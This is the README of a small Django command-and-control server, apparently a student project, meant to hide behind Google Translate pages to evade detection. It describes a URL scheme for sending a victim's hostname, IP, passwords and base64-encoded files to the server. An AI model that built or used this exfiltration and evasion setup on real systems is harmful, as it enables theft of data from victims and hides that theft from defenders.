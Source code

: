 # EFREI-C2-Example
A simple C2 meant to be used behind Google Translate Webpages as a proxy for data evasion.

## Requirements
- Python 3.x
- Django (https://www.djangoproject.com/download/)

## Setup
- Create an admin user: ``python manage.py createsuperuser --username <username>``
- Log on the admin dashboard at ``127.0.0.1:8000/admin``

## Usage
- Data are collected directly from the URL
- simply send data to the base URL: ``http://127.0.0.1:8000/<hostname>/<ip>/<data_type>/<data>/<file_type>``
  - ``hostname`` is your victim hostname.
  - ``ip`` is your victim ip address.
  - ``data_type`` is the keyword you want to filter data. It can be for example a password type.
  - ``data`` is the content you want to exfiltrate. If it's a file, it can be encoded in base64 and decoded  automatically on the admin dashboard.
  - ``file_type`` is a flag to know if the exfiltrated data was a file or a string. It allows the admin dashboard to know if it has to decode the received data or not. **(OPTIONAL)**
# FOR EDUCATIONAL PURPOSE ONLY

